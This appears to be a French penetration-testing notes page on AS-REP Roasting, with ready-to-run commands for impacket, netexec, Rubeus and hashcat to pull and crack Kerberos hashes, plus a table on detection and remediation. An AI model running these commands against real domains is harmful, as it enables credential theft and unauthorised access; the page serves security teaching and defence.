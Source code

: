 L'attaque AsrepRoasting consiste à cibler les utilisateurs n'ayant pas l'attribut de pré-authentification. Ceci permet alors de récupérer un hash qui peut ensuite être cracké.
La dangerosité principale de cette technique est le fait qu'il n'est pas nécessaire d'être authentifié pour l'effectuer, le seul élément nécessaire est le nom du compte à cibler (Il est possible d'énumérer les comptes asreproastables directement si l'on est authentifié, cependant).

---
### Linux

#### Enumération des utilisateurs sur le DC et des comptes asreproastables

```bash
impacket-GetNPUsers domain.local/ -userfile /wordlist/username -format hashcat -outputfile asreproast.txt
```

#### Via netexec

```bash
netexec ldap 10.10.10.10 -u users.txt -p '' --asreproast asreproast.txt
```

Si l'on est authentifié nous pouvons avoir accès à la liste des utilisateurs via LDAP, ce qui permet d'identifier les comptes asreproastables sans avoir à bruteforcer une liste d'utilisateur:

```bash
netexec ldap 10.10.10.10 -u $user -p $pass --asreproast asreproast.txt
```

---
### Windows

#### Enumération des utilisateurs sur le DC et des comptes asreproastables

```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:asreproast.txt
```

---
### Crack des hash

#### Cracker les hash obtenus

```bash
hashcat asreproast.txt /usr/share/wordlists/rockyou.tar.gz
```

---

| Catégorie                    | Information                                                                                                                                                                                                                                                               |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **TTP**                      | Attaque par extraction de ticket AS-REP dans [Kerberos](../../../Ressources/Windows/Kerberos.md)                                                                                                                                                                          |
| **CWE**                      | CWE-522 (Insufficiently Protected Credentials)                                                                                                                                                                                                                            |
| **Description de l'attaque** | AS-REP Roasting exploite les comptes Kerberos configurés pour ne pas nécessiter de preuve de connaissance du mot de passe (Pre-Authentication). Un attaquant peut demander des données de ticket AS-REP pour ces comptes et tenter de craquer le mot de passe hors ligne. |
| **Impacts potentiels**       | - Compromission des comptes utilisateurs<br>- Accès non autorisé aux services et données<br>- Possibilité d'élévation de privilèges                                                                                                                                       |
| **Comment la détecter**      | - Surveillance des demandes de ticket AS-REP sans pré-authentification<br>- Analyse des journaux de serveur Kerberos pour les activités suspectes<br>- Utilisation d'outils de détection d'intrusion                                                                      |
| **Remédiations/mitigations** | - Activer la pré-authentification Kerberos pour tous les comptes<br>- Utiliser des mots de passe forts et complexes<br>- Auditer régulièrement les configurations de compte<br>- Formation et sensibilisation des administrateurs système                                 |
| **Lien de référence**        | [Harmj0y's Blog - AS-REP Roasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)                                                                                                                                                                        |

